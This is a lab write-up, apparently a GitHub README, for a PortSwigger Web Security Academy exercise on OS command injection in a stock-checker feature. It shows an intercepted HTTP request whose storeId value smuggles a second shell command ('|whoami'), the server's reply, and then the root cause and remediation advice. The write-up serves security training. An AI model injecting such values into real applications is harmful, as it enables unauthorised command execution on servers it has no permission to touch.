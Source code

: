 # 💻 OS Command Injection — Simple Case

**🧠 Difficulty:** Apprentice
**📚 Platform:** PortSwigger Web Security Academy
**👩‍💻 Author:** Kaouthar Belkebir

---

## 📌 Lab Description

> This lab contains an **OS command injection vulnerability** in the product stock checker.
>
> The application executes a shell command containing **user-supplied product and store IDs**, and returns the **raw output from the command** in its HTTP response.
>
> ✅ **Goal:** Execute the `whoami` command to determine the name of the current user on the server.

---

## 🔍 Vulnerability Summary

The target web app provides a feature to check **stock levels** using two parameters:

* `productId`
* `storeId`

These values are **directly injected into a shell command**, allowing command injection via special characters like `|`.

---

## 🧪 Exploitation Steps

1. Open the stock check page and intercept the request using **Burp Suite**.
2. Modify the request to inject a command into the `storeId` parameter.

---

### 📥 Intercepted Request

```http
POST /product/stock HTTP/2
Host: [LAB_DOMAIN]
Cookie: session=AzKPSTrcJ3Ggw3i8rXP3JFzMDf7ecgXc
Content-Type: application/x-www-form-urlencoded

productId=3&storeId=2|whoami
```

---

### ✅ Result

The server response includes:

```
www-data
```

💥 This confirms **successful OS command execution**. The user running the process is `www-data`.

---

## 🔬 Root Cause

* The server builds a shell command using `productId` and `storeId` **without sanitization**.
* By injecting `|whoami`, the attacker **chains a second command**, executed by the system shell.

---

## 🛡️ Remediation

* ❌ **Don’t use user input in shell commands.**
* ✅ Use safe APIs like `subprocess.run(..., shell=False)` (Python), or equivalents in other languages.
* ✅ Validate and sanitize input. Apply strict allow-listing.

---

## 🧠 Key Takeaway

Even **simple user inputs** like an ID can become dangerous when directly passed to system-level functions.
This lab proves that without input validation, an attacker can easily **take control of system-level execution** using a single parameter injection.

---

## 🖼️ Screenshot

C:\Users\Blkab\OneDrive\Bureau\shell-inje\lab1\lab1.png

-
